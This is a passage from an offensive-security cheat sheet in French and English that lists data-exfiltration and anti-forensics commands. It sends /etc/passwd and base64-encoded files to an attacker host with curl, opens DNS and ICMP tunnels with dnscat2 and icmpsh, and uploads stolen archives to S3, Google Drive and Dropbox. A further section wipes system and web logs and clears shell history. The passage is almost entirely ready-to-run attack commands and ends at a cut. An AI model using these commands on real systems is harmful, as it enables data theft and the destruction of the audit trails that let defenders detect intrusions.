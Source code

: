 ## 📊 Data Exfiltration

### Techniques de Base
```bash
# 1. HTTP POST exfiltration
curl -X POST -F "file=@/etc/passwd" http://attacker.com/upload.php

# 2. DNS tunneling avec dnscat2
# Sur l'attaquant:
dnscat2-server attacker.com
# Sur la victime:
./dnscat2 attacker.com

# 3. ICMP tunneling
# Sur l'attaquant:
icmpsh_m.py attacker_ip victim_ip
# Sur la victime:
icmpsh.exe -t attacker_ip

# 4. Base64 encoding pour bypass
cat sensitive_file.txt | base64 | curl -X POST -d @- http://attacker.com/data
```

### Exfiltration via Cloud Storage
```bash
# 1. Upload vers cloud storage
# S3 (si credentials AWS trouvés)
aws s3 cp sensitive_data.zip s3://bucket/

# 2. Google Drive via API
curl -X POST \
  'https://www.googleapis.com/upload/drive/v3/files?uploadType=media' \
  -H 'Authorization: Bearer [access_token]' \
  -H 'Content-Type: application/zip' \
  --data-binary '@sensitive_data.zip'

# 3. Dropbox
curl -X POST https://content.dropboxapi.com/2/files/upload \
  --header "Authorization: Bearer [access_token]" \
  --header "Content-Type: application/octet-stream" \
  --data-binary @sensitive_data.zip
```

## 🕵️ Covering Tracks

### Log Cleaning Linux
```bash
# 1. Nettoyer les logs système
echo "" > /var/log/auth.log
echo "" > /var/log/syslog
echo "" > /var/log/messages

# 2. History cleanup
history -c                        # Clear current session
echo "" > ~/.bash_history        # Clear history file
unset HISTFILE                   # Disable history for session

# 3. Nettoyer les logs d'accès web
echo "" > /var/log/apache2/access.log
echo "" > /var/log/nginx/access.log

# 4. Nettoyer sélectivement
```